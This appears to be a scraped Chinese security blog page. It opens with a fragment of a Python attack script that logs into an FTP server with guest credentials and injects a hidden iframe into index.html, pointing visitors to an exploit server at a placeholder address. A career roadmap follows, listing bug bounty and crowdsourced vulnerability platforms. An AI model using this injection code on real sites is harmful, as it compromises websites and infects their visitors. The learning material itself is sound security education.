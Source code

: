 host = '192.168.190.131'
userName = 'guest'
passWord = 'guest'
ftp = ftplib.FTP(host)
ftp.login(userName, passWord)
redirect = '&lt;iframe src= '+'"http://xx.xx.xx.xx:8080/exploit"&gt;&lt;/iframe&gt;'
injectPage(ftp, 'index.html', redirect)</code></pre>


---


---


> 
<h2><img alt="" height="28" src="https://img-blog.csdnimg.cn/0797a1b4a28e49479db240e038a7969d.png" width="28"/>网络安全三年之约</h2>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/0052aabacbb147b482912c9fe1950f56.png" width="23"/>First year </h3>
掌握各种原理、不断打新的靶场
<img alt="" height="23" src="https://img-blog.csdnimg.cn/6b308c9501174788aa24fa4e5ea8fdd2.png" width="23"/>目标：edusrc、cnvd 
[主页 | 教育漏洞报告平台 (sjtu.edu.cn)https://src.sjtu.edu.cn/](https://src.sjtu.edu.cn/)[https://www.cnvd.org.cnhttps://www.cnvd.org.cn/](https://www.cnvd.org.cn/)
<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year </h3>
不断学习、提升技术运用技巧，研究各种新平台
开始建立自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/3bc7983d3bac437fbcf8b3530e3ec8d3.png" width="23"/>目标：众测平台、企业src应急响应中心 
<table border="1" cellpadding="1" cellspacing="1"><tbody>|众测平台|URL
|漏洞盒子|[漏洞盒子 | 互联网安全测试众测平台](https://www.vulbox.com/)
|火线安全平台|[火线安全平台](https://www.huoxian.cn/)
|漏洞银行|[BUGBANK 官方网站 | 领先的网络安全漏洞发现品牌 | 开放安全的提出者与倡导者 | 创新的漏洞发现平台](https://www.bugbank.cn/)
|360漏洞众包响应平台|[360漏洞云漏洞众包响应平台](https://src.360.net/)
|补天平台（奇安信）|[补天 - 企业和白帽子共赢的漏洞响应平台，帮助企业建立SRC](https://www.butian.net/)
|春秋云测|[首页](https://zhongce.ichunqiu.com/)
|雷神众测（可信众测，安恒）|[雷神众测 - BountyTeam](https://www.bountyteam.com/)
|云众可信（启明星辰）|[云众可信 - 互联网安全服务引领者](https://www.cloudcrowd.com.cn/)
|ALLSEC|[ALLSEC](https://i.allsec.cn/#/)
|360众测|[360众测平台](https://zhongce.360.cn/)
|看雪众测（物联网）|[https://ce.kanxue.com/](https://ce.kanxue.com/)
|CNVD众测平台|[网络安全众测平台](https://zc.cnvd.org.cn/)
|工控互联网安全测试平台|[CNCERT工业互联网安全测试平台](https://test.ics-cert.org.cn/)
|慢雾（区块链）|[Submit Bug Bounty - SlowMist Zone - Blockchain Ecosystem Security Zone](https://slowmist.io/bug-bounty.html)
|平安汇聚|[http://isrc.pingan.com/homePage/index](http://isrc.pingan.com/homePage/index)
</tbody></table>
